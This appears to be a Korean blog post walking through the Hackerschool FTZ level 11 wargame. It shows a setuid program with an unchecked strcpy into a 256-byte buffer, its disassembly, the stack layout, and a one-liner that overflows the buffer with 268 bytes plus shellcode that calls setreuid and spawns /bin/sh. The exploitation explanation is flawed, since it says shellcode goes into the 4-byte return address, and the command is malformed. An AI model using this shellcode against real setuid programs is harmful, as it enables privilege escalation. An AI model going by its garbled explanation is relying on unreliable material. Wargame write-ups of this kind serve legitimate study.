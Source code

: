 ```yaml
---
date: '2022-10-01'
before : '2022-09-30'
after : '2022-10-02'
title: '시스템 해킹(9) : 해커스쿨 FTZ 레벨 11'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

조금 더 어려운 BOF문제! 물론 BOF가 아니고 Format String 기법으로도 공격할 수 있지만, 기왕 BOF 연습중인거 BOF로 풀었다.

### 1. __Level 11__

이것 또한 BOF 문제이다. 하지만 이번엔 "진짜" BOF처럼 ret값이 들어가는 주소에 쉘코드를 입력해야 한다. 이는 소스코드를 보면 확인할 수 있다.

```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

attackme의 소스코드다. 음..일단 tmp에 복사해서 한 번 gdb로 디버깅
해보는 것이 좋을 것 같다.

```
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
```

다음과 같은 코드가 뜨는데, 차근차근 분석해보면
ebp-264 시점에 우리의 str[256]이 선언되는 것 같다. strcpy는 길이 체크를 하지 않으니
버퍼오버플로우의 취약점이 보인다.  


일단 264-256을 해서 더미데이터가 8바이트 존재하는걸 확인할 수 있다. 또한 기본적으로 SFP 4바이트와
ret 4바이트가 존재할 것이다. 따라서 스택구조를 재구성해보면 :
```
str[256]
dummy[8]
sfp[4]
ret[4]
```
처럼 될 것이다. 우리가 조작하고자 하는 겂은 ret값이니 우리는 총 268바이트를 사용해
뭔가를 채우고, ret에 4바이트 쉘코드를 넣어 attackme를 실행시키면 될 것 같다. 


여기서 ret니 sfp니 아무것도 모르겠다면, 컴퓨터 구조(특히 레지스터)와 어셈블리에 대한 공부가 더 필요하다고 볼 수 있겠다. 간단히만 말하자면 ret는 return해서 돌아가는 주소이고(즉, 함수가 완료될떄 다음에 실행될 코드) sfp는 현재 스택의 기준을 잡는 값으로, 만약 이게 상위에서 호출된 함수라면 그 상위 함수의 위치값을 저장해 완료시 돌아갈 위치를 세이브해준다고 생각하면 된다.


이런걸 보면 확실히 리버싱 공부를 더 해야할 것 같다. 이런 예제야 쉽지만...

```
./attackme 'python-c'print"A"*268+
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\
x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\
x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'

//작성한 쉘 코드.
```
쉘코드는 인터넷에 널려있다. 스스로 만들기는 아직 실력이 좀 부족하다.


아, 그리고 쉘코드가 4바이트가 넘어가는 경우도 허다한데, 이런 경우는 환경변수 등록을
통해 등록된 환경변수의 주소를 return값으로 넘겨주면 된다. 이에 대해선 level12에서
다루도록 하겠다.


비밀번호 : it is like this

---
## Source

- 해커스쿨 FTZ
- Me!